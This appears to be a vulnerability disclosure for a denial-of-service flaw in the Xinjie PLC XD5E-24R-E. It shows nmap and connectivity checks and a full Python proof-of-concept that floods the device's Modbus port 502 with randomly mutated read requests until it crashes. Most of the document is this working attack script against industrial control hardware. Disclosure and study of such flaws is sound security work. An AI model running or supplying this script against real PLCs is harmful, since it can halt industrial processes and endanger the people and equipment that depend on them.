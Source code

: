 # Summary
Xinjie PLC XD5E-24R-E has a denial of service vulnerability. An attacker can send a large number of data packets to cause the PLC to crash.

# Details
Connectivity test of the device:![image](https://github.com/user-attachments/assets/170d5807-3800-4057-a952-4500746c0b37)

Nmap scans device ports:![image](https://github.com/user-attachments/assets/c1f567c7-ee5a-451d-88a5-d82f0f26b3eb)

You can see that port 502 is open.

Then we run the script:![image](https://github.com/user-attachments/assets/15afc01c-fdde-4cc6-b79c-62c8f5cdc58e)

Soon you will see the device crash. ![image](https://github.com/user-attachments/assets/8c3c17f2-2deb-458c-ad21-57418130d816)


# PoC
My host ip is `192.168.6.10` and the device's ip is `192.168.6.6`.

```py
import socket

def F1(x):
    return x ^ 0xFF
    pass
def F2(x):
    return x ^ 0xFE
    pass
def F3(x):
    return (x-0x10) & 0xFF
    pass
def F4(x):
    return (x*0x17) & 0xFF
    pass

def F5(x):
    return (x**2) & 0xFF

def Change(data: bytes):
    l = len(data)
    import random
    pos = 0
    while ((pos==0) or (pos == 20)):
        pos = random.randint(0, l - 1) 
    Fs = [F1, F2, F3, F4, F5]
    f = random.randint(0, 4)  
    func = Fs[f]
    newX = func(data[pos])

    hex_str = format(newX, '02x')
    data = data[:pos] + bytes.fromhex(hex_str) + data[pos + 1:]

    return data

ori = "000100000006010300000064"
ori = bytes.fromhex(ori)
queue = []

queue.append(ori)
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.6.6",502))
MAX_LEN = 65536
cur = 0
first = False
while True:
    if((cur)%100 == 0):
        print(cur,end=' ')
    for i in range(8):
        top = queue[cur]
        now = Change(top)
        queue.append(now)
        try:
            s.send(now)
        except:
            if first == False:
                print()
                print("\033[91m[+] CRASHED!!!!!!!!!!!!!!!!!!\033[0m")
    cur = (cur + 1) % MAX_LEN
```
# Discoverer
ylqncepu@163.com

https://github.com/N0zoM1z0

